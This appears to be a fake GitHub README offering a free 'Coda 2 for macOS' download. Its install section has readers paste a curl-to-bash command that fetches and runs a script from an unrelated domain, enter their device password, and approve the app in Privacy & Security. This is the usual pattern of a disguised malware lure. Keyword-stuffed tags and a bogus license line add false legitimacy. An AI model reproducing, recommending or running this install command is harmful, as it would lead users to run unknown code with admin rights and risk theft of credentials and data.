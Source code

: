 <p align="center">
  <img src="https://i.ibb.co/PspJDLQK/1604674112-coda.png" alt="Coda 2 macOS Banner" />
</p>

<h1 align="center">Coda 2 for macOS</h1>

<p align="center">
  💻 Write code, deploy via FTP, preview in real time — all in one clean macOS-native interface.  
  <br><br>
  ✅ Native Apple Silicon & Intel support  
  ✅ Compatible with macOS Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/177" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20CODA%202%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Coda 2 for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/Q7cv3CnQ/1670151360-4.webp" alt="Coda 2 Interface Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Coda 2?

**Coda 2** is a legendary all-in-one web development tool for macOS. It combines a powerful text editor with syntax highlighting, an integrated FTP client, a built-in terminal, and real-time preview in a single window.

Perfect for front-end and full-stack developers who want speed, elegance, and efficiency, Coda 2 reduces the need for switching between multiple tools and helps you stay focused on building responsive, modern websites.

Runs smoothly on **Apple Silicon (M1/M2/M3)** and supports **macOS Sonoma**, **Ventura**, and **Monterey**.

---

## ✅ Why Choose Coda 2?

- 🧠 **Unified Code Editor & FTP Client**  
- 🌍 **Live Preview in Real Time**  
- 🧩 **Built-in Terminal for SSH Access**  
- 🔧 **Custom Syntax Modes & Themes**  
- 🚀 **Quick Publish & Save-on-Upload**  
- 📁 **Site Management & Local Projects**  
- 💻 **macOS Native Performance**  
- ✨ **Lightweight & Beautiful UI**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/zhzntTLt/1670151359-2.webp" alt="Coda 2 Code Editor Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/tpxBWsz8/1670151360-3.webp" alt="Coda 2 Preview & Terminal Screenshot" />
</p>

---

## 🚀 Key Features

- Full-featured HTML, CSS, JS, PHP editor  
- MySQL database management  
- Git integration  
- Built-in terminal and SSH  
- One-click FTP/SFTP publishing  
- Local site preview  
- Tabs, code folding, and autocompletion  
- Plugin support and themes

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow Coda 2 under "App Management"

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Category-Web+Development+Editor-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-FTP+Preview+Terminal+Editor-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Coda 2 – Web Dev Without the Mess

Thanks for using **Coda 2 for macOS**.  
Your all-in-one tool for building and deploying the web.

---

## 🧭 Usage Context

Coda 2 is intended for standalone web development, deployment, and local site management workflows.  
No external account or cloud dependency required.

All development is handled locally and via direct server connection.  
Not affiliated with Apple or third-party hosting services.

---

## 🔍 Tags

```text
coda 2 for mac download, coda 2 web development editor macos, download coda app with ftp terminal mac, coda 2 preview and publish tool mac, all in one code editor for mac developers, macos web design live preview app, coda 2 m1 native support macbook, mac ftp sftp html css editor app, coda mac responsive site builder tool, offline coding and deployment app mac, ssh terminal with code preview coda 2, download full coda 2 for macos ventura, code editor publish preview mac native, lightweight website manager mac coda, text editor with sync and upload macos
